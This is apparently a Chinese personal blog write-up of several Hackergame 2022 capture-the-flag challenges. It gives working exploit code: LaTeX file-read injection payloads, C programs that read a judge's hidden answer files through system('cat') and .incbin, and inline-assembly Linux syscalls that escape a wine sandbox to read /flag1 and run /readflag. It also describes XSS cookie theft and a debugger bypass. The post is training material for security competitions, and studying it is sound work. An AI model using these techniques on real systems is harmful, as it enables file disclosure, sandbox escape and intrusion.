我们在 _`State`_ 类的 [_`collect`_ 方法](focus://State.collect#22:33) (你可以把鼠标放在加下划虚线的文字上或者触摸它们，kxxt 会自动给您高亮相关代码)和 [_`update`_ 方法](focus://State.update#21:32)中可以发现一个致命的漏洞：

它们判断一个数和被猜数字是否相等的逻辑是：如果这个数既不大于被猜数也不小于被猜数，那么就通过。

</CH.Section>

然而，众所周知，`NaN` 既不大于任何一个数，也不小于任何一个数。所以我们把 `NaN` 交上去就过了。

万恶的网页交不了 `NaN`. 欺负我在用手机做题是吧？我掏出了 termux, 熟练的使用 `pip` 安装了 `httpie`。然后左一个 `POST` 右一个 `GET` 就把它干掉了。

```shell 命令行
$ http POST 202.38.93.111:18000/state 'Authorization: Bearer 你的token' <<< '<state><guess>NaN</guess></state>'
HTTP/1.1 204 No Content
Date: Fri, 28 Oct 2022 09:14:34 GMT


$ http GET 202.38.93.111:18000/state 'Authorization: Bearer 你的token'
HTTP/1.1 200 OK
Content-length: 155
Content-type: text/xml;charset=utf-8
Date: Fri, 28 Oct 2022 09:16:08 GMT

<?xml version="1.0" ?>
<state>
<name>534</name>
<passed>1</passed>
<talented>1</talented>
<flag>flag{gu3ss-n0t-a-numb3r-1nst3ad-ca5760cf631aba18}</flag>
</state>
```

# Write Up Part II

这里放段字，防止两个标题挨得太近出 Bug

## LaTeX 机器人

:::question

在网上社交群组中交流数学和物理问题时，总是免不了输入公式。而显然大多数常用的聊天软件并不能做到这一点。为了方便大家在水群和卖弱之余能够高效地进行学术交流，G 社的同学制作了一个简单易用的将 LaTeX 公式代码转换成图片的网站，并通过聊天机器人在群里实时将群友发送的公式转换成图片发出。

这个网站的思路也很直接：把用户输入的 LaTeX 插入到一个写好头部和尾部的 TeX 文件中，将文件编译成 PDF，再将 PDF 裁剪成大小合适的图片。

“LaTeX 又不是被编译执行的代码，这种东西不会有事的。”

物理出身的开发者们明显不是太在意这个网站的安全问题，也没有对用户的输入做任何检查。

那你能想办法获得服务器上放在根目录下的 flag 吗？

**纯文本**

第一个 flag 位于 `/flag1`，flag 花括号内的内容由纯文本组成（即只包含大写小写字母和数字 0-9）。

**特殊字符混入**

第二个 flag 位于 `/flag2`，这次，flag 花括号内的内容除了字母和数字之外，还混入了两种特殊字符：下划线（`_`）和井号（`#`）。你可能需要想些其他办法了。

:::

### flag1

flag1 很简单，直接用 `\input` 宏把 `/flag1` 文件读进来就行。


花括号被 $\LaTeX$ 吃掉了，填 flag 的时候自己补上就行。

### flag2

flag2 卡了我很久。后来 Google 搜索 `latex raw text` 得到的[第一个结果](https://tex.stackexchange.com/questions/422197/latex-environment-to-write-in-plain-text-mode) 中提到了一个定义新的 environment 使得 `$`, `&`, `#`, `^`, `_`, `~`, `%` 这些特殊字符能够被显示出来的方法。

<CH.Section>

根据 `base.tex`, `latex_to_image_converter.sh`  的内容，我们可以确定[加入了我们的输入之后 `tex` 文件的样子](focus://result.tex#3:5)：

<CH.Code style={{height: 300}}>

```tex base.tex
\documentclass[preview]{standalone}
\begin{document}
$$
$$
\end{document}
```

```shell latex_to_image_converter.sh
#!/bin/bash
set -xe
head -n 3 /app/base.tex > /dev/shm/result.tex
cat /dev/shm/input.tex >> /dev/shm/result.tex
tail -n 2 /app/base.tex >> /dev/shm/result.tex
cd /dev/shm
pdflatex -interaction=nonstopmode -halt-on-error -no-shell-escape result.tex
pdfcrop result.pdf
mv result-crop.pdf result.pdf
pdftoppm -r 300 result.pdf > result.ppm
pnmtopng result.ppm > $1
OMP_NUM_THREADS=1 convert $1 -trim $1
```

```tex result.tex
\documentclass[preview]{standalone}
\begin{document}
$$
我们的输入
$$
\end{document}
```

</CH.Code>

</CH.Section>

那么我们把下面的 payload 交给 $\LaTeX$ 机器人就可以得到 flag2(可怜的花括号还是照样会被吃掉。。。)

```tex payload.tex
\newenvironment{simplechar}{\catcode`\$=12    \catcode`\&=12    \catcode`\#=12    \catcode`\^=12    \catcode`\_=12    \catcode`\~=12    \catcode`\%=12 }{} \begin{simplechar}\input{/flag2}\end{simplechar}
```


## Flag 的痕迹

:::question

小 Z 听说 Dokuwiki 配置很简单，所以在自己的机器上整了一份。可是不巧的是，他一不小心把珍贵的 flag 粘贴到了 wiki 首页提交了！他赶紧改好，并且也把历史记录（revisions）功能关掉了。

「这样就应该就不会泄漏 flag 了吧」，小 Z 如是安慰自己。

然而事实真的如此吗？

> （题目 Dokuwiki 版本基于 2022-07-31a "Igor"）

:::

从自己电脑上运行一个 Dokuwiki  复现一下小 Z 的操作。

```shell
mkdir wiki && docker run -d \
    --name=dokuwiki \
    -e PUID=1000 \
    -e PGID=1000 \
    -e TZ=Europe/London \
    -p 8080:80 \
    -v "$(pwd)/wiki":/config \
    --restart unless-stopped \
    lscr.io/linuxserver/dokuwiki:latest
```

然后进 localhost:8080 编辑首页，再做第二次编辑

我们进入到 revisions 页面，发现它有一个 diff 功能，可以显示改动，而且右边有一个链接 `Link to this comparison view`, 点击之后 url 里的 `do=revisions` 变成了 `do=diff` 。我们可以合理的怀疑小 Z 的 Dokuwiki 没有关掉 diff 功能。我们直接访问 http://202.38.93.111:15004/doku.php?id=start&do=diff 发现我们能够看到小Z 作出的历史改动，便拿到了 flag。


## 安全的在线测评

:::question

传说科大新的在线测评系统（Online Judge）正在锐意开发中。然而，新 OJ 迟迟不见踪影，[旧的 OJ](https://oj.ustc.edu.cn/) 和[更旧的 OJ](http://acm.ustc.edu.cn/ustcoj/) 却都已经停止了维护。某 2022 级计算机系的新生小 L 等得不耐烦了，当即表示不就是 OJ 吗，他 10 分钟就能写出来一个。

**无法 AC 的题目**

为了验证他写的新 OJ 的安全性，他决定在 OJ 上出一道不可能完成的题目——大整数分解，并且放出豪言：只要有人能 AC 这道题，就能得到传说中的 flag。当然，因为目前 OJ 只能运行 C 语言代码，即使请来一位[少年班学院的天才](https://github.com/ustclug/hackergame2018-writeups/tree/master/official/RSA_of_Z#解法-1)恐怕也无济于事。

**动态数据**

为了防止数据意外泄露，小 L 还给 OJ 加入了动态数据生成功能，每次测评会随机生成一部分测试数据。这样，即使 OJ 测试数据泄露，攻击者也没办法通过所有测试样例了吧！（也许吧？）

判题脚本：[下载](https://hack.lug.ustc.edu.cn/media/0fd509cd-9f1a-588a-b45e-a11331006a3f/online_judge.py)

你可以通过 `nc 202.38.93.111 10027` 来连接题目，或者点击下面的 "打开/下载题目" 按钮通过网页终端与远程交互。

:::

### 无法 AC 的题目

阅读 `online_judge.py` 可以发现 OJ 最终使用 `runner` 账户来运行我们的代码。然而它只把动态数据的输入输出文件的权限改成了 700，却（故意）忘记把 `static.out` 的权限改成 700 了。

```python online_judge.py
for i in range(N):
    inpaths.append(os.path.join(DATA, f'dynamic{i}.in'))
    outpaths.append(os.path.join(DATA, f'dynamic{i}.out'))

    p, q = generate_data()
    n = p * q

    with open(inpaths[i], 'w') as f:
        f.write(f'{n}\n')
    with open(outpaths[i], 'w') as f:
        f.write(f'{p}\n{q}\n')

    os.chmod(inpaths[i], 0o700)
    os.chmod(outpaths[i], 0o700)
```

于是我们可以直接一个 `cat` 过掉静态数据。

```c static.c
#include<stdlib.h>

int main() {
    system("cat data/static.out");
    return 0;
}
```

### 动态数据

再仔细阅读一下 OJ 的代码，发现它并没有用 `runner` 账户来编译我们的代码。所以如果我们的代码能在编译期把答案都读进来，我们就能过掉这道题了。

可是，`dynamic{i}.out` 文件里存了两个高精大整数，我直接把她们 `#include` 进来的话是会出编译错误的呀！

诶？编译错误！我为什么不能直接 `#include "../flag.py"` 然后靠编译器的错误输出拿到 flag 呢？

```c failed_attempt.c
请输入你的代码（以两个空行作为结尾）：

#include "../flag.py"


In file included from ./temp/code.c:1:
./temp/../flag.py:1:1: error: unknown type name ‘import’
    1 | import os
      | ^~~~~~
./temp/../flag.py:3:1: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘flag1’
    3 | flag1 = "fake{test1}"
      | ^~~~~
静态数据测试： Compile Error

Connection closed
```

草，出题人还是想到了这一点的。你看他在 `flag.py` 的第三行放了个假 flag 来嘲讽你。

那嘛，我该怎么办呢？

后来我[从 StackOverflow 上](https://stackoverflow.com/questions/410980/include-a-text-file-in-a-c-program-as-a-char)找到了一条汇编指令 `.incbin` (那条回答有点惨，只有一个 upvote，也就是说没人给它点过upvote)

下面代码里的 `gcc_header` 是这个 StackOverflow 帖子里提到的动态 `#include` 文件的一个方法。

为了惜字如金，我定义了一大堆宏来简化代码。

:::hint

下面是一个 Code Hike 的 `Scrollycoding` 组件，为了获得更好的阅读体验，我建议您在较大的屏幕上查看。

如果您觉得右侧的目录树占用了较大的空间，您可以点击 `TABLE OF CONTENTS` 来隐藏/显示右侧的目录树（目录树暂时不会在小屏设备上显示，其实理论上在小屏设备上目录应该显示在文章开头，但是我太懒了，还没做，还请移动端用户多多包容🥹🥹🥹🥹）。

在大屏设备上，您可以点击各个步骤的内容，kxxt 会自动给您更新右侧的代码。

:::

<CH.Scrollycoding lineNumbers={true} style={{'--ch-scrollycoding-sticker-width': '50%' }} rows={20}>

#### Step 1

```c hack.c
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)


// 我是可爱的注释
```

我们先定义 _`gcc_header`_ 宏。这个宏的作用是把 _`gcc_header(i)`_ 转化成字符串 _`"data/dynamici.out"`_. 如果你看不懂这个宏在干什么，可以回去复习一下 C 语言。

:::warning

不要用 VSCode 的格式化文档功能，格式化文档会在 _`data/dynamic`_ 的分隔符两边加上空格导致编译失败。

:::

---

#### Step 2

```c hack.c focus=4:8
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")

// 我往上挪了一行
```

然后我们定义把答案文件包括进来的宏 _`var_start`_ 和 _`var_end`_.

- _`var_start`_ 利用汇编的 _`.incbin`_ 指令把答案文件 _`data/dynamicx.out`_  作为二进制文件包括到编译结果中.
- 除此之外，_`var_start`_ 还在汇编中为包括进来的数据的起始地址添加了标签 _`outx`_
- 注意：因为文件是作为二进制包括进来的，所以文件末尾并不以 _`'\0'`_ 结尾。
- 所以我们定义 _`var_end`_ 宏来补上一个 0 字节。

---

#### Step 3

```c hack.c focus=7:18
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")
// 当然要惜字如金了
#define declar_var(x) extern char out##x[]
#define include_str(x) \
  var_start(x);        \
  var_end(x);          \
  declar_var(x)

include_str(0);
include_str(1);
include_str(2);
include_str(3);
include_str(4);
```

- 然后我们定义一个定义  _`external`_ 变量的宏，她的作用就是告诉 C 语言我们在别处定义了一个名字叫 _`outx`_ 的 _`char`_ 数组。
- 我们再定义  _`include_str`_ 宏，它将完成嵌入答案文件和声明外部变量的工作合二为一
- 然后就运行宏呗。没啥好讲的

---

#### Step 4

```c hack.c focus=18:24
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")
// 当然要惜字如金了
#define declar_var(x) extern char out##x[]
#define include_str(x) \
  var_start(x);        \
  var_end(x);          \
  declar_var(x)

include_str(0);
include_str(1);
include_str(2);
include_str(3);
include_str(4);

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char buffer[512];
```

- 照例，引入库文件
- 声明个数组做缓冲区
- 我管它会不会溢出呢，死去的 OJ 又不会跳起来攻击我的代码

---

#### Step 5

```c hack.c focus=25:32
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")
// 当然要惜字如金了
#define declar_var(x) extern char out##x[]
#define include_str(x) \
  var_start(x);        \
  var_end(x);          \
  declar_var(x)

include_str(0);
include_str(1);
include_str(2);
include_str(3);
include_str(4);

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char buffer[512];

int main() {
  if (access("./temp/dsa", F_OK) == -1) {
    system("echo 0 > ./temp/dsa");
    system("cat ./data/static.out");
  }
  return 0;
}
```

- 终于到了 _`main`_ 函数了
- 我们的程序需要保存一个状态，记录我们接下来要输出那个文件
- 所以我们就把接下来要输出的文件的标号存到 _`./temp/dsa`_ 这个文件里。
- 如果没有这个文件，我们就输出静态数据的答案并将 _`0`_ 写入状态文件

---

#### Step 6

```c hack.c focus=30:37
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")
// 当然要惜字如金了
#define declar_var(x) extern char out##x[]
#define include_str(x) \
  var_start(x);        \
  var_end(x);          \
  declar_var(x)

include_str(0);
include_str(1);
include_str(2);
include_str(3);
include_str(4);

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char buffer[512];

int main() {
  if (access("./temp/dsa", F_OK) == -1) {
    system("echo 0 > ./temp/dsa");
    system("cat ./data/static.out");
  } else {
    freopen("./temp/dsa", "r", stdin);
    int n;
    scanf("%d", &n);
    sprintf(buffer, "echo %d > ./temp/dsa", n + 1);
    system(buffer);
    // 未完待续，请看下一步
  }
  return 0;
}
```

- 若状态文件存在，我们就读入状态
- 然后把下一个状态写入状态文件

---

```c hack.c focus=36:40
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")
// 当然要惜字如金了
#define declar_var(x) extern char out##x[]
#define include_str(x) \
  var_start(x);        \
  var_end(x);          \
  declar_var(x)

include_str(0);
include_str(1);
include_str(2);
include_str(3);
include_str(4);

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char buffer[512];

int main() {
  if (access("./temp/dsa", F_OK) == -1) {
    system("echo 0 > ./temp/dsa");
    system("cat ./data/static.out");
  } else {
    freopen("./temp/dsa", "r", stdin);
    int n;
    scanf("%d", &n);
    sprintf(buffer, "echo %d > ./temp/dsa", n + 1);
    system(buffer);
    switch (n) {
      #define out_case(x) \
        case x:           \
          puts(out##x);   \
    	  break
      out_case(0);
      out_case(1);
      out_case(2);
      out_case(3);
      out_case(4);
      // 嘻， default 被我吃了
    }
  }
  return 0;
}
```

#### Last Step

- 我们定义一个宏来惜字如金，减少代码字数
- 用一个 _`switch`_ statement 来输出动态数据对应的答案
- 撒花 :tada: , 完结

---

#### 完整代码

- 桌面端用户点我显示完整代码。
- 当然你也可以点击代码块右上角的按钮

```c hack.c
#define __gcc_header(x) #x
#define _gcc_header(x) __gcc_header(data/dynamic##x.out)
#define gcc_header(x) _gcc_header(x)
#define var_start(x) \
  asm("out" __gcc_header(x) ":.incbin \"" gcc_header(x) "\"")
#define var_end(x) asm(".byte 0x00")
// 当然要惜字如金了
#define declar_var(x) extern char out##x[]
#define include_str(x) \
  var_start(x);        \
  var_end(x);          \
  declar_var(x)

include_str(0);
include_str(1);
include_str(2);
include_str(3);
include_str(4);

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char buffer[512];

int main() {
  if (access("./temp/dsa", F_OK) == -1) {
    system("echo 0 > ./temp/dsa");
    system("cat ./data/static.out");
  } else {
    freopen("./temp/dsa", "r", stdin);
    int n;
    scanf("%d", &n);
    sprintf(buffer, "echo %d > ./temp/dsa", n + 1);
    system(buffer);
    switch (n) {
      #define out_case(x) \
        case x:           \
          puts(out##x);   \
    	  break
      out_case(0);
      out_case(1);
      out_case(2);
      out_case(3);
      out_case(4);
      // 嘻， default 被我吃了
    }
  }
  return 0;
}
```

</CH.Scrollycoding>

## 线路板

:::question

中午起床，看到室友的桌子上又多了一个正方形的盒子。快递标签上一如既往的写着：线路板。和往常一样，你“帮”室友拆开快递并抢先把板子把玩一番。可是突然，你注意到板子表面似乎写着些东西……看起来像是……flag？



可是只有开头的几个字母可以看清楚。你一时间不知所措。

幸运的是，你通过盒子上的联系方式找到了制作厂家，通过板子丝印上的序列号查出了室友的底细，并以放弃每月两次免费 PCB 打样包邮的机会为代价要来了这批带有 flag 的板子的生产文件。那这些文件里会不会包含着更多有关 flag 的信息呢？

:::

随意用文本编辑器打开一个 `gbr` 文件，发现它是由 `KiCad` 生成的。

```bat *.gbr
%TF.GenerationSoftware,KiCad,Pcbnew,(6.0.6)*%
%TF.CreationDate,2022-08-23T23:43:20+09:00*%
%TF.ProjectId,ebaz_sdr,6562617a-5f73-4647-922e-6b696361645f,rev?*%
%TF.SameCoordinates,Original*%
%TF.FileFunction,Soldermask,Bot*%
%TF.FilePolarity,Negative*%
%FSLAX46Y46*%
G04 Gerber Fmt 4.6, Leading zero omitted, Abs format (unit mm)*
G04 Created by KiCad (PCBNEW (6.0.6)) date 2022-08-23 23:43:20*
%MOMM*%
...
```

于是我就用 `pacman` 装了个 KiCad, KiCad 的 Gerber Viewer 可以查看这些文件。

选择文件菜单，`Open Gerber Job File...` , 打开题目给的那个 `gbrjob` 文件.



然后我们确定 flag 图案在哪一层上，把不需要的层隐藏。



嗯，我们还是没能看到心心念念的 flag. 直觉告诉我这堆遮挡物体是用画图指令覆盖上去的，只要我把它们去掉，再打开这个文件，我就能看到 flag.

经过几次尝试，下面的修改成功使 flag 显示了出来。

```diff ebaz_sdr-F_Cu.patch
114,207d113
< G04 APERTURE END LIST*
< D10*
< X169900974Y-112903000D02*
< G75*
< G03*
< X169900974Y-112903000I-1955987J0D01*
< G01*
< X152807810Y-113284000D02*
< G75*
< G03*
< X152807810Y-113284000I-915810J0D01*
< G01*
< X181229001Y-112522000D02*
< G75*
< G03*
< X181229001Y-112522000I-1529283J0D01*
< G01*
< X172378841Y-114935000D02*
< G75*
< G03*
< X172378841Y-114935000I-1436841J0D01*
< G01*
< X150521810Y-112268000D02*
< G75*
< G03*
< X150521810Y-112268000I-915810J0D01*
< G01*
< X177165000Y-113538000D02*
< G75*
< G03*
< X177165000Y-113538000I-1143000J0D01*
< G01*
< X149979923Y-114681000D02*
< G75*
< G03*
< X149979923Y-114681000I-1135923J0D01*
< G01*
< X173771574Y-113411000D02*
< G75*
< G03*
< X173771574Y-113411000I-924574J0D01*
< G01*
< X178358987Y-115011013D02*
< G75*
< G03*
< X178358987Y-115011013I-2463987J0D01*
< G01*
< X156007023Y-115189000D02*
< G75*
< G03*
< X156007023Y-115189000I-1448023J0D01*
< G01*
< X156921387Y-111836387D02*
< G75*
< G03*
< X156921387Y-111836387I-1727387J0D01*
< G01*
< X182118000Y-114427000D02*
< G75*
< G03*
< X182118000Y-114427000I-915810J0D01*
< G01*
< X162840810Y-112776000D02*
< G75*
< G03*
< X162840810Y-112776000I-1423810J0D01*
< G01*
< X167589387Y-112217387D02*
< G75*
< G03*
< X167589387Y-112217387I-1727387J0D01*
< G01*
< X158649810Y-113665000D02*
< G75*
< G03*
< X158649810Y-113665000I-915810J0D01*
< G01*
< X160147000Y-114046000D02*
< G75*
< G03*
< X160147000Y-114046000I-635000J0D01*
< G01*
< X164338000Y-114554000D02*
< G75*
< G03*
< X164338000Y-114554000I-1727387J0D01*
< G01*
< X168682810Y-114681000D02*
< G75*
< G03*
< X168682810Y-114681000I-915810J0D01*
< G01*
< D11*
< D12*

```

然后就顺利的拿到 flag 了 （这 flag 不就是相当于白送吗。。。）




## Flag 自动机

:::question

Hackergame 2022 组委会为大家搬来了一台能够自动获取 flag 的机器。然而，想要提取出其中的 flag 似乎没那么简单……

:::

额。。。解压之后我获得了一个 Windows exe... 然而我身为骄傲的 Arch Linux 用户（好吧，其实是衍生的发行版 Garuda Linux）怎么去运行/调试它呢？我我我。。。。直接按下电源键重启到 Windows 11. 

运行 `flag_machine.exe` 发现组委会为大家搬来了一台能够自动获取 flag 的机器。然而鼠标点不到 "狠心夺取" 按钮。那怎么办呢？我的第一反应是直接给窗口发送点击事件，于是便有了下面的 python 代码。

```python click.py
import win32gui
import win32api
import win32.lib.win32con as win32con

hWnd = win32gui.FindWindow(None, "flag 自动机")
print(hWnd)

hWnd1= win32gui.FindWindowEx(hWnd, None, None, None)
def click(x, y):
    lParam = win32api.MAKELONG(x, y)
    win32gui.SendMessage(hWnd1, win32con.WM_LBUTTONDOWN, win32con.MK_LBUTTON, lParam)
    win32gui.SendMessage(hWnd1, win32con.WM_LBUTTONUP, None, lParam)

for x in range(500):
    for y in range(500):
        click(x, y)
```

然而狡猾的组委会会让你这么容易的拿到 flag 吗？当然不会。


于是我就掏出了吃灰多年的 IDA Free, 加载 `flag_machine.exe`, 点击运行按钮。

``` asm IDA.output
70520000: loaded C:\WINDOWS\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.22621.436_none_f0ef7eb2d589ad1a\COMCTL32.DLL
77800000: loaded C:\WINDOWS\SysWOW64\msvcrt.dll
76560000: loaded C:\WINDOWS\SysWOW64\win32u.dll
77ADEB10: thread has started (tid=5804) 
77ADEB10: thread has started (tid=8284) 
762D0000: loaded C:\WINDOWS\SysWOW64\gdi32full.dll
763B0000: loaded C:\WINDOWS\SysWOW64\USER32.dll
77A10000: loaded C:\WINDOWS\SysWOW64\msvcp_win.dll
761A0000: loaded C:\WINDOWS\SysWOW64\ucrtbase.dll
778D0000: loaded C:\WINDOWS\SysWOW64\IMM32.DLL
Debugger: thread 8284 has exited (code -1)
Debugger: thread 5804 has exited (code -1)
Debugger: thread 7176 has exited (code -1)
Debugger: process has exited (exit code -1)
```

呃呃呃呃呃呃呃呃。。。 程序直接退出了。这程序还带反调试的？？？

那我就先启动程序，再通过 attach to process 菜单项把 IDA 调试器附加到正在运行的 `flag_machine.exe` 上。


稍微看一下汇编能发现一点有意思的东西，比如 `rdata` 段里有 `flag_machine.txt` 这段文字。可惜 flag 本身并没有被明文存储在 `rdata` 段里。

然后我们再来找一下程序在哪里调用了 Windows 的 `GetMessageA` 函数接收窗口的事件消息。


发现这个库函数只在 `sub_401A2C` 中被调用。那么，`sub_401A2C` 或许就是我们取得 flag 的关键了。

然而跳过去一看并没有什么值得关注的东西。。。

那么就来关注一下程序在那里调用了 `fopen` 吧，我盲猜程序会把 flag 写到 `flag_machine.txt` 这个文件里。

果然，调用 `fopen` 的那段代码同时还会弹窗显示 `Congatulations` 祝贺我们。那么这就是我们获得 flag 的关键。


切到 Graph View 来康康这个子过程（红框标出了我们要跳转到的目标代码）：


从第一个块的最后一行条件跳转那里加一个断点，从这个子过程负责的任务来看，程序是肯定会命中这个断点的。

把程序窗口切到前台，程序命中断点之后，我们让程序直接执行红框位置代码：


然后取消断点，让程序继续执行，我们就能在 `flag_machine.txt` 里找到 flag 了。


## 微积分计算小练习

:::question

小 X 作为某门符号计算课程的助教，为了让大家熟悉软件的使用，他写了一个小网站：上面放着五道简单的题目，只要输入姓名和题目答案，提交后就可以看到自己的分数。

[点击此链接访问练习网站](http://202.38.93.111:10056/?token=534%3AMEUCIQDaou7cyjyx8wag%2B%2FM4mE9ujZxx4x3zqTGeSXOYAb7c2QIgOC3MvDnhg7nXfRsK04xoaa%2B0pNw4%2BJdV5z3ZYkiLTdo%3D)

想起自己前几天在公众号上学过的 Java 设计模式免费试听课，本着前后端离心（咦？是前后端离心吗？还是离婚？离。。离谱？总之把功能能拆则拆就对啦）的思想，小 X 还单独写了一个程序，欢迎同学们把自己的成绩链接提交上来。

总之，因为其先进的设计思想，需要同学们做完练习之后手动把成绩连接贴到这里来：

[点击此链接提交练习成绩 URL](http://202.38.93.111:10057/?token=534%3AMEUCIQDaou7cyjyx8wag%2B%2FM4mE9ujZxx4x3zqTGeSXOYAb7c2QIgOC3MvDnhg7nXfRsK04xoaa%2B0pNw4%2BJdV5z3ZYkiLTdo%3D)

:::

<CH.Section>

读一下程序，发现 bot 会[把 flag 放到 _`document.cookie`_ 里面](focus://bot.py#2:3)。

最后 bot 会把 _`greeting`_ 和 _`score`_ 两个元素内的文本内容输出出来。

所以我们需要构造一个脚本注入，把其中一个元素替换成 _`document.cookie`_ 的内容。

然后网页上可以注入的地方只有姓名一栏。写了个简单的 payload 就过了.

<CH.Code>

```python bot.py
...
print(' Putting secret flag...')
driver.execute_script(f'document.cookie="flag={FLAG}"')
time.sleep(1)

print('- Now browsing your quiz result...')
driver.get(url)
time.sleep(4)

try:
    greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
    score = driver.execute_script(f"return document.querySelector('#score').textContent")
except selenium.common.exceptions.JavascriptException:
    print('JavaScript Error: Did you give me correct URL?')
    exit(1)

print("OK. Now I know that:")
print(greeting)
print(score)
...
```

---

```html payload

```

</CH.Code>

</CH.Section>

## 杯窗鹅影

:::question

说到上回，小 K 在获得了实验室高性能服务器的访问权限之后就迁移了数据（他直到现在都还不知道自己的家目录备份被 Eve 下载了）。之后，为了跑一些别人写的在 Windows 下的计算程序，他安装了 wine 来运行它们。

「你用 wine 跑 Windows 程序，要是中毒了咋办？」

「没关系，大不了把 wineprefix 删了就行。我设置过了磁盘映射，Windows 程序是读不到我的文件的！」

但果真如此吗？

为了验证这一点，你需要点击「打开/下载题目」按钮，上传你的程序实现以下的目的：

1. `/flag1` 放置了第一个 flag。你能给出一个能在 wine 下运行的 x86_64 架构的 Windows 命令行程序来读取到第一个 flag 吗？
2. `/flag2` 放置了第二个 flag，但是需要使用 `/readflag` 程序才能看到 `/flag2` 的内容。你能给出一个能在 wine 下运行的 x86_64 架构的 Windows 命令行程序来执行 `/readflag` 程序来读取到第二个 flag 吗？

:::

### flag1

Google 搜索 `read linux host file in wine`, 点进[第一个来自 StackExchange 的搜索结果](https://unix.stackexchange.com/questions/28594/access-to-the-files-beyond-wines-virtual-disks)， 回答的评论里提到了 Wine 中的程序仍然可以使用 Linux 系统调用。

> Wine is not a sandbox – a  program can use Linux syscalls to interact with the rest of the system  bypassing Wine, although this is unlikely to happen unless the program  was intentionally written to do that.
>
> – [ephemient](https://unix.stackexchange.com/users/1779/ephemient)                
>
> [Jan 9, 2012 at 2:57](https://unix.stackexchange.com/questions/28594/access-to-the-files-beyond-wines-virtual-disks#comment38504_28596)

那就把系统调用写到内联汇编里吧。（交叉编译用不了 linux 的头文件）

不就是写两个系统调用嘛，一个 `open` 打开文件，一个 `read` 读取文件。

```c read.c
#include <stdio.h>
#include <stdlib.h>

volatile char filename[] = "/flag1";
volatile char buf[1024];

int main() {
  {
    asm("movq %1, %%rdi\n"
        "movq $2, %%rax\n" /*Open*/
        "xorq %%rsi, %%rsi\n" /*ReadOnly*/
        "xorq %%rdx, %%rdx\n"
        "syscall\n"
        "movq %%rax, %%rdi\n"
        "movq $0,%%rax;\n" /*Read*/
        "leaq %0, %%rsi\n"
        "movq $1023,%%rdx;\n"
        "syscall\n"
        : "=m"(buf)
        : "r"(filename));
  }
  printf("%s", buf);
  return 0;
}
```

```shell
x86_64-w64-mingw32-gcc read.c
```

把 `a.exe` 交上去，果然过了。

flag 里提到了 `directory_traversal`, 可能我的做法不是预期做法。

### flag2

flag1 拿得到，flag2 其实就更简单了，甚至就只需要一个 `execve` 系统调用就可以做到。

```c exec.c
#include <stdio.h>
#include <stdlib.h>

volatile char filename[] = "/readflag";
volatile char buf[1024];

int main() {
  {
    asm("movq %0, %%rdi\n"
        "xorq %%rsi, %%rsi\n" /*cmdline: NULL*/
        "xorq %%rdx, %%rdx\n" /*env: NULL*/
        "movq $59, %%rax\n"   /*execve*/
        "syscall\n"
        : : "r"(filename));
  }
  printf("%s", buf);
  return 0;
}
```

# Write Up Part |||

这里也要放段字，防止两个标题挨得太近出 Bug。跪求大佬给我发个 PR 修 Bug。

诶。。。你有没有注意到这次标题好像和前两个有点不一样啊。。

## 二次元神经网络

:::question

天冷极了，下着雪，又快黑了。这是一年的最后一天——大年夜。在这又冷又黑的晚上，一个没有 GPU、没有 TPU 的小女孩，在街上缓缓地走着。她从家里出来的时候还带着捡垃圾捡来的 E3 处理器，但是有什么用呢？跑不动 Stable  Diffusion，也跑不动 NovelAI。她也想用自己的处理器训练一个神经网络，生成一些二次元的图片。

于是她配置好了 PyTorch 1.9.1，定义了一个极其简单的模型，用自己收集的 10 张二次元图片和对应的标签开始了训练。

```
SimpleGenerativeModel(
  (tag_encoder): TagEncoder(
    (embedding): Embedding(63, 8, padding_idx=0)
  )
  (model): Sequential(
    (0): Linear(in_features=16, out_features=8, bias=True)
    (1): ReLU()
    (2): Linear(in_features=8, out_features=8, bias=True)
    (3): ReLU()
    (4): Linear(in_features=8, out_features=64 * 64 * 3, bias=True)
    (5): Tanh()
  )
)
```

她在 CPU 上开始了第一个 epoch 的训练，loss 一直在下降，许多二次元图片重叠在一起，在向她眨眼睛。

她又开始了第二个 epoch，loss 越来越低，图片越来越精美，她的眼睛也越来越累，她的眼睛开始闭上了。

...

第二天清晨，这个小女孩坐在墙角里，两腮通红，嘴上带着微笑。新年的太阳升起来了，照在她小小的尸体上。

人们发现她时才知道，她的模型在 10 张图片上过拟合了，几乎没有误差。

（完）

听完这个故事，你一脸的不相信：「这么简单的模型怎么可能没有误差呢？」，于是你开始复现这个二次元神经网络。

:::

### 初始想法

嗯，我身为一个人工智能相关专业的学生。如果做不出这道题，岂不是太丢脸了。

